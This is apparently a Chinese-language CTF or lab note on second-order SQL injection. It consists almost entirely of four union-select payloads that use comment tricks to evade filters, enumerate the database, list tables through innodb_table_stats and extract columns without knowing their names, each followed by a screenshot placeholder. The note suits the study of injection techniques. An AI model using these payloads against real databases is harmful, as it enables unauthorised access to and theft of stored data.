 应该是二次注入

- 查库 'union/**/select/**/1,database(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22

![Untitled](SQL%E6%B3%A8%E5%85%A5%207c83b7a8861f4e89aff2bded5a55302b/Untitled%204.png)

- 查表 'union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22

![Untitled](SQL%E6%B3%A8%E5%85%A5%207c83b7a8861f4e89aff2bded5a55302b/Untitled%205.png)

- 查列名 'union/**/select/**/1,(select/**/group_concat(column_name)/**/from/**/FLAG_TABLE),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22

![Untitled](SQL%E6%B3%A8%E5%85%A5%207c83b7a8861f4e89aff2bded5a55302b/Untitled%206.png)

- 无列名注入 'union/**/select/**/1,(select/**/group_concat(`3`)/**/from/**/(select/**/1,2,3/**/union/**/select/**/*/**/from/**/users)a),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22

![Untitled](SQL%E6%B3%A8%E5%85%A5%207c83b7a8861f4e89aff2bded5a55302b/Untitled%207.png)
